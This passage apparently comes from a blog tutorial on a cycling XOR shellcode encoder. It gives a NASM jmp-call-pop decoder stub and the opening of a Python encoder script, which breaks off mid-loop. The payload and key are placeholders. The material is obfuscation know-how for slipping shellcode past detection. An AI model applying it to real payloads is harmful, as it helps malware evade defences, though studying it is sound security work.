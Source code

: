 
The algorithm sounds like it should work... Let's give it a shot

## The Assembly

{% highlight nasm %}

DECODER_RING equ ;; dword to decode with
global _start
section .text
  _start:
    jmp short call_decoder

  decoder:
    pop esi
    mov eax, DECODER_RING
    xor edx, edx
    xor edi, edi
    mov cl, 25 ; encoded shellcode length

  reset:
    mov ebx, DECODER_RING

  decode:
    cmp ebx, edi
    jz reset
    xor [esi+edx], bl
    inc edx
    shr ebx, 0x8
    loop decode
    jmp esi

  call_decoder:
    call decoder
    encoded: db ;; Encoded bytes here

{% endhighlight %}

## The Python

{% highlight python %}

#!/usr/bin/python
'''
Author: Brett Lischalk
Title: Cycling Encoder
Description:
Cycles through a dword using the
lowest significant byte as the value to xor
a byte of shellcode with.
'''

# Set the dword you want to be your
# value to cycle through in encoder
encoder=0xdeadbeef
encoder_dirty=encoder
shellcode="shellcode goes here.........................................."

encoded=bytearray()
shellcode_bytes=bytearray(shellcode)

while len(shellcode_bytes) != 0:
  # when we have shifted our decoder to zero
